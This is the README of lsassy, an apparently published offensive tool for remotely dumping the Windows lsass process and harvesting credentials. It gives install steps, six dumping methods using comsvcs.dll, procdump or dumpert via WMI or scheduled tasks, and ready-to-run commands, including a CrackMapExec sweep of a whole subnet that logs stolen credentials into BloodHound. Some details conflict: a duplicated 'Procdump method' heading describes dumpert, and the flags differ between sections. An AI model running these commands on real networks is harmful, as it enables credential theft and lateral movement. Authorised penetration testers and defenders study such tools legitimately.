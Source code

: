 # lsassy

[![PyPI version](https://d25lcipzij17d.cloudfront.net/badge.svg?id=py&type=6&v=1.1.6&x2=0)](https://pypi.org/project/lsassy/) [![Twitter](https://img.shields.io/twitter/follow/hackanddo?label=HackAndDo&style=social)](https://twitter.com/intent/follow?screen_name=hackanddo)

![CME Module example](https://github.com/Hackndo/lsassy/raw/master/assets/example.png)

Python library to remotely extract credentials. This [blog post](https://en.hackndo.com/remote-lsass-dump-passwords/) explains how it works.

You can check the [wiki](https://github.com/Hackndo/lsassy/wiki)

This library uses [impacket](https://github.com/SecureAuthCorp/impacket) project to remotely read necessary bytes in lsass dump and [pypykatz](https://github.com/skelsec/pypykatz) to extract credentials.

| Chapters                                     | Description                                             |
|----------------------------------------------|---------------------------------------------------------|
| [Requirements](#requirements)                | Requirements to install lsassy from source              |
| [Installation](#installation)                | Installation commands from pip or from source           |
| [Basic Usage](#basic-usage)                  | Command line template for standalone version            |
| [Advanced Usage](#advanced)                  | Advanced usage (Dumping methods, execution methods, ...)|
| [CrackMapExec Module](#crackmapexec-module)  | Link to CrackMapExec module included in this repository |
| [Examples](#examples-1)                      | Command line examples for standalone and CME module     |
| [Issues](#issues)                            | Read this before creating an issue                      |
| [Acknowledgments](#acknowledgments)          | Kudos to these people and tools                         |
| [Contributors](#contributors)                | People contributing to this tool                        |

## Requirements

* Python >= 3.6
* [pypykatz](https://github.com/skelsec/pypykatz) >= 0.3.0
* [impacket](https://github.com/SecureAuthCorp/impacket)

## Installation

### From pip

```
python3.7 -m pip install lsassy
```

### From sources

```
python3.7 setup.py install
```

## Basic Usage

```
lsassy [--hashes [LM:]NT] [<domain>/]<user>[:<password>]@<target>
```

## Advanced

### Dumping methods

This tool can dump lsass in different ways.

Dumping methods (`-m` or `--method`)
* **0**: Try all methods (dll then procdump) to dump lsass, stop on success (Requires -p if dll method fails)
* **1**: comsvcs.dll method, stop on success (default)
* **2**: Procdump method, stop on success (Requires -p)
* **3**: comsvcs.dll + Powershell method, stop on success
* **4**: comsvcs.dll + cmd.exe method
* **5**: Dumpert method, stop on success (Requires -u)

#### comsvcs.dll method

This method **only uses built-in Windows files** to extract remote credentials. It uses **minidump** function from **comsvcs.dll** to dump **lsass** process.

This method can only be used when context has **SeDebugPrivilege**. This privilege is either in Powershell local admin context, or cmd.exe SYSTEM context.

Two execution methods can be used.
1. **WMIExec** with cmd.exe (no SeDebugPrivilege), or powershell (SeDebugPrivilege)
2. **ScheduledTasks** with SYSTEM context (SeDebugPrivilege)

#### Procdump method

This method uploads **procdump.exe** from SysInternals to dump **lsass** process. It will first try to execute
procdump using WMI, and if it fails it will create a remote task, execute it and delete it.

#### Procdump method

This method uploads **dumpert.exe** to dump **lsass** process. It will first try to execute
dumpert using WMI, and if it fails it will create a remote task, execute it and delete it.

#### Examples

```bash
lsassy [--hashes [LM:]NT] [<domain>/]<user>[:<password>]@<target> -m 0 -p /path/to/procdump.exe
lsassy [--hashes [LM:]NT] [<domain>/]<user>[:<password>]@<target> -m 1
lsassy [--hashes [LM:]NT] [<domain>/]<user>[:<password>]@<target> -m 2 -p /path/to/procdump.exe
lsassy [--hashes [LM:]NT] [<domain>/]<user>[:<password>]@<target> -m 3
lsassy [--hashes [LM:]NT] [<domain>/]<user>[:<password>]@<target> -m 4
lsassy [--hashes [LM:]NT] [<domain>/]<user>[:<password>]@<target> -m 5 -u /path/to/dumpert.exe
```

### Remote parsing only

lsassy can parse an already dumped lsass process.

```
lsassy [--hashes [LM:]NT] --dumppath /share/path/to/dump.dmp [<domain>/]<user>[:<password>]@<target>
```

## CrackMapExec module

I wrote a CrackMapExec module that uses **lsassy** to extract credentials on compromised hosts

CrackMapExec module is in `cme` folder : [CME Module](https://github.com/Hackndo/lsassy/tree/master/cme)

## Examples

### lsassy

```bash
# RunDLL Method
lsassy adsec.local/jsnow:Winter_is_coming@dc01.adsec.local

# Procdump Method
lsassy -m 2 -p /tmp/procdump.exe adsec.local/jsnow:Winter_is_coming@dc01.adsec.local

# Dumpert Method
lsassy -m 5 -p /tmp/dumpert.exe adsec.local/jsnow:Winter_is_coming@dc01.adsec.local

# Remote parsing only
lsassy --dumppath C$/Windows/Temp/lsass.dmp adsec.local/jsnow:Winter_is_coming@dc01.adsec.local

# NT Hash Authentication
lsassy --hashes 952c28bd2fd728898411b301475009b7 Administrator@desktop01.adsec.local
```

### CME Module

```
crackmapexec smb 10.0.0.0/24 -d adsec.local -u Administrator -p Passw0rd -M lsassy -o BLOODHOUND=True NEO4JPASS=bloodhound DUMPERT_PATH=/tmp/dumpert.exe 
```

### ChangeLog

```
v1.1.0
------
* Better execution process : --method flag has been added and described in help text
* Uses random dump name
* Chose between cmd, powershell, dll and/or procdump methods
* CME module is now using light lsassy WMIExec et TASKExec implementation
* Bug fixes

v1.0.0
------
* Built-in lsass dump
** Lsass dump using built-in Windows
** Lsass dump using procdump (using -p parameter)
* Add --dumppath to ask for remote parsing only
* Code refactoring
* Add --quiet to quiet output

v0.2.0
------
* Add BloodHound option to CME module (-o BLOODHOUND=True)
    - Set compromised targets as "owned" in BloodHound
    - Check if compromised users have at least one path to domain admin
* Custom parsing (json, grep, pretty [default])
* New --hashes option to lsassy
* Include CME module in repository
* Add credentials to CME database


v0.1.0
------
First release
```

## Issues

If you find an issue with this tool (that's very plausible !), please

* Check that you're using the latest version
* Send as much details as possible.
    - For standalone **lsassy**, please use the `-d` debug flag
    - For CME module, please use CrackMapExec `--verbose` flag

## Acknowledgments

* [Impacket](https://github.com/SecureAuthCorp/impacket)
* [SkelSec](http://twitter.com/skelsec) for Pypykatz, but also for his patience and help
* [mpgn](https://twitter.com/mpgn_x64) for his help and ideas

## Contributors

* [ITPPA](https://github.com/ITPPA/)
* [viaccoz](https://github.com/viaccoz)
* [blurbdust](https://github.com/blurbdust)
